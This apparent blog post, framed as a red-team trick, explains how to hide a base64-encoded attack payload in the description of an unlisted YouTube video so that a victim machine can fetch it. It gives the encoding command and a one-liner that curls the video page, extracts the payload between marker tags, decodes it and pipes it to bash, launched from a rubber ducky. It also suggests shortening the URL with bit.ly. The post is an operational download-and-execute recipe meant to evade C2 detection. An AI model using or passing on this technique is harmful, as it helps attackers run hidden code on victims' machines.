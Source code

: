 ```yaml
---
layout: post
title: Hosting malicious payloads on Youtube
description: Use Youtube to host your malicious payloads
keywords: payload,youtube,shell 
disqus: true
tags: [TRICKS]
categories: RCE 
---
```

#### Why that? 
It's a trick created during a red team mission, where we have a rubber ducky, which will download a bash script to run the [GTRS](https://github.com/mthbernardes/GTRS) on the victm machine, but we have problem, the traffic with the C2 will be safe using the [GTRS](https://github.com/mthbernardes/GTRS), but the infected machine need to talk directly to the C2 to get our payload, so we had the idea to use Youtube to host our bash payload.

### Recipe of Rataria
First of all, create your payload with powershell, bash, python or whatever language you want, then encode it in base64.

```bash
base64 payload | tr -d '\n'
```

Now upload a video on youtube, make it unlisted and on the video description insert your payload encoded, BUT to make your life easier add a tag at the start and end of the payload, like this, `sCmD[YOUPAYLOAD]eCmD`, and that's all, now all you need is execute this command on your rubber ducky payload

```bash
curl https://www.youtube.com/watch?v=VIDEOID | sed -n 's/.*sCmD\(.*\)eCmD.*/\1/p' | base64 -d | bash
```

A tip to shrink the url, is use [bit.ly](https://bit.ly) which is used by twitter.
